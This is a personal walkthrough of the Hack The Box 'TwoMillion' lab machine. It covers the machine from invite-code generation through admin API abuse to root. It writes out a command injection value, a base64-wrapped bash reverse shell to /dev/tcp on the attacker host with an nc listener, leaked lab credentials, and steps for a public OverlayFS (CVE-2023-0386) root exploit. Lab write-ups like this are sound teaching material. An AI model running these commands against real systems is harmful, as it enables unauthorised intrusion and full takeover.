








# TwoMillion:
  
Hi, this is one of the first HTB boxes I have attempted.
Having done a few boxes in the past I had a little idea of 
what I was getting myself into but, this box put me through it.  

This is the first box I have tried using guided mode and it was a very
plesant supprise. If you haven't tried the HTB guided mode I would
definitely recommend it. 

### Nmap
Nmap scan:
  
nmap scan found 2 tcp ports

### Page Exploration
Adding the ip and 2million.htb to my /etc/hosts file I navigated to
the page. Upon investagation of the page there was a join page and a login
page. The join page needed a code to get in. 

  

Refreshing the page and looking in the network tab presented me with some
js files. One file was called inviteapi.min.js. The one issue with this
file is it was obfuscated.
  
Upon deobfuscating the code you get:  
  
Little more readable right?

Within this code there is the function makeInviteCode().
Executing this function manually within the console gives an output
encrypted in ROT13 (nothing a little cyberchef cant solve). Throwing the output into cyberchef you get the hint "In order to generate the invitation code, make a POST request to /api/v1/invitation/generate".
 
Curl came in clutch being able to send the post request:  
`curl -i -L -X POST -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8" -b "PHPSESSID=36tguu0940aidi58fmloe" http://2million.htb/api/v1/invite/generate`

The request responded with:   
{"0":200,"success":1,"data":{"code":"Tlk1VDQtV0tYSUYtSk82SlQtUTdVRFo=","format":"encoded"}}  

The code can be decrypted using the following command:   
`echo "Tlk1VDQtV0tYSUYtSk82SlQtUTdVRFo=" | base64 --decode`  
My code was: `NY5T4-WKXIF-JO6JT-Q7UDZ`  

Going back to the forum now that we had a valid invite code I created
my account with the credentials:  
Username: Ryushe  
Email: Ryushe.dev@gmail.com  
Password: Ryu  

### VPN
Upon loging in I was greeted with a older verion of the current HTB
website. The most important part of the entire page was the vpn
page. This page was able to create/regenerate a valid vpn key.  

Using burp to inspect the request I noticed that the page was sending
a request to `/api/v1/user/vpn/generate`. Modifying the request a 
little to see how the website worked, I was able to see all the
different things the api could do when I navigated to `/api`. Going up
one directory would show the user all the valid api requests. 

  

Notice how there is a url to generate a vpn for not only a normal user,
but for an admin as well. 

Admin has an api request that allows us to check if we are admin:  
`GET /api/v1/admin/auth`  
Sending a GET request using burp we can see that we are indeed infact
not admin :(  
![Am_admin?][/img/admin-false.png]  

Now, there is another api url under the PUT category. This api link
allows the user to change admin settings. Using burp to send a
request will result in the a response saying "danger", "missing
perameter: email"

  

Adding the email perameter you get something that looks like this:  

  

Adding in the admin block and then checking our admin status we get:  
Note: is_admin has to be set to 1 like this `"is_admin":1`  

  

Now, is when the magic starts to happen. We're root right? Ya, remember
the api call I mentioned before `api/v1/admin/vpn/generate`? We
can now successfully call that.

Calling the `vpn/generate` using a POST burp request it asks for us to give
it a user to make the vpn for. Putting
`{"username":"Ryushe"}`
in the request I get a successful vpn generation output.  

Now, this api endpoint has a command injection vulnerability in it.
We can test this by changing the request to `{"username":"Ryushe;ls;"}`  

### Command Injection Exploit
Now that we know that there is a command injection vulnerability we can
set-up a reverse shell into the machine. Using a basic reverse shell payload
(I used a bash reverse shell) we can encrypt it for transfer using:  
`echo "bash -i >& /dev/tcp/<ip of host>/8888 0>&1" | base64 `  
Now, we want to get a nc listener on our reverse shell:  
`nc -lvnp 8888`  
Copy the ouput and put it in where it says encrypted payload:  
`echo "<output of first command>" | base64 -d | bash`  
Paste the command into the machine you are attacking a press enter.
If all went went well you should now be in the machine.

Now, looking in the admin directory we see user.txt (the first flag)  
Hmm.. we need to take over admin user  

Taking a look at the .env file I was presented with the db name as well as
the the admin username and password.  
dbname=htb_prod  
username: admin  
password: SuperDuperPass123   
running: `su admin`  
with pass: `SuperDuperPass123`  
Loggs you into the admin account. Now, that you are admin you can get the 
user.txt file in the admin home directory. 

Upon logging into the user admin you are presented with a message:  

  

Upon looking at the /var/mail directory I found the file mail:  

  

The email gave clues to check the db config so thats where I headed next.
Logging into mysql with the valid credentials I got from the .env file.
I did not find anything upon entering the mysql db.   

I decided to take another look at the email that was sent to admin. 
Upon further inpection I found that the email was talking about the
os that was hosting their services and something to do with overlayfs. 
Currently we are on version 22.04.1 of ubuntu and
googling ubuntu 22.04.1 overlayfs vunerabilities lead me to this [article](https://securitylabs.datadoghq.com/articles/overlayfs-cve-2023-0386/#how-the-cve-2023-0386-vulnerability-works).  
Upon further investagation I found this [repo](https://github.com/sxlmnwb/CVE-2023-0386) that worked wonders: 
1. Clone onto host system  
2. settup a `python -m http.server`  
3. wget --recursive --no-parent <http://myip:port>
4. going to the dir with 2 different terminals I made the process and ran it with   
`./fuse ./ovlcap/lower ./gc`  
5. In the second terminal I ran `./exp` (and just like that we had root)  

  

I ran sudo apt install plocate (to make finding the root flag easier)  
It did not.... (ended up waiting for it to fail over and over)  

Finally, I cd'ed into the root dir and there it was waiting for me the root.txt  
Catting the file I got the flag 

  

### What I Learned
* Command injection vulnerability
* Curl -X -L <url>   
    - how to format curl for redirects and post requests  
* To try to spawn a shell earlier.. I was too caught up with 
other things I totally forgot you can spawn shells to make things easier  
Also ldconfig allows you to see lib versions.. didnt know that
* Better understanding of how to send burp requests and modify data
    - eg: Command injections

[def]: img/admin_false_burp.png